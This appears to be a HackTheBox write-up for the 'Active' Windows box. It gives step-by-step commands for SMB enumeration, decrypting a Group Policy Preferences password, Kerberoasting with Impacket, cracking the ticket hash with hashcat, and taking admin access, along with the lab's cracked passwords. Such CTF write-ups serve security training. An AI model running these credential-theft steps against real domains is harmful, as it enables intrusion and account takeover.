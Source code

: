 # Active (HackTheBox) – Writeup

**Difficulty:** Easy  
**OS:** Windows  
**Category:** Active Directory, Kerberoasting  
**Link To Box:** https://app.hackthebox.com/machines/Active  
**Author:** Gavin Wood

---

## Enumeration

We start with an Nmap scan:

```bash
nmap -p- -sC -sV 10.10.10.100
```

**Key Findings:**
- **Port 445 (SMB)** open
- Hostname: `DC`
- Domain: `active.htb`

---

## SMB Share Enumeration

List available SMB shares without credentials:

```bash
smbclient -L //10.10.10.100 -N
```

We find several shares. Using `smbmap` to check permissions:

```bash
smbmap -H 10.10.10.100 -u '' -p ''
```

We identify readable access on `Replication`.

---

## Accessing the Share

Connect to the share:

```bash
smbclient //10.10.10.100/Replication -N
```

Navigating the share, we find:

```
Groups.xml
```

---

## Looting Credentials from Groups.xml

Viewing `Groups.xml` reveals:

```xml
<User ... name="active.htb\SVC_TGS" ... cpassword="edBSHOwhZLTjt/...VmQ" />
```

This is a **Group Policy Preferences** password, stored in `cpassword` format.  
We can decrypt it with `gpp-decrypt`:

```bash
gpp-decrypt 'edBSHOwhZLTjt/...VmQ'
```

**Result:**
```
GPPstillStandingStrong2k18
```

So we have:
```
Username: SVC_TGS
Password: GPPstillStandingStrong2k18
```

---

## Validating Credentials

Check SMB authentication:

```bash
crackmapexec smb 10.10.10.100 -u SVC_TGS -p 'GPPstillStandingStrong2k18'
```

Result: **[+] Valid credentials**.

---

## Kerberoasting

With a valid domain account, we attempt Kerberoasting:

```bash
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py active.htb/SVC_TGS:'GPPstillStandingStrong2k18' -dc-ip 10.10.10.100 -request
```

We get a TGS hash for the **Administrator** account:

```
$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*...
```

---

## Cracking the Hash

Save the hash to `hash.txt` and crack with:

```bash
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```

**Cracked Password:**
```
Ticketmaster1968
```

---

## Administrator Access

Using SMB to access the admin share:

```bash
smbclient //10.10.10.100/C$ -U Administrator
```

Password: `Ticketmaster1968`

Navigate to the Administrator’s desktop and retrieve the root flag:

```smb
cd Users\Administrator\Desktop
get root.txt
```

---

## Flags

- **User.txt**: Retrieved from initial SMB share enumeration.
- **Root.txt**: Retrieved after Kerberoasting and SMB admin access.

---

## Lessons Learned

- **Group Policy Preferences** can leak passwords in SYSVOL/Replication shares.
- Even a **low-privileged domain account** can request Kerberos TGS tickets for service accounts.
- Kerberoasting works entirely offline, avoiding account lockouts.
- Cracking service account passwords can escalate to **Domain Admin**.

---

**Status:** Box Completed
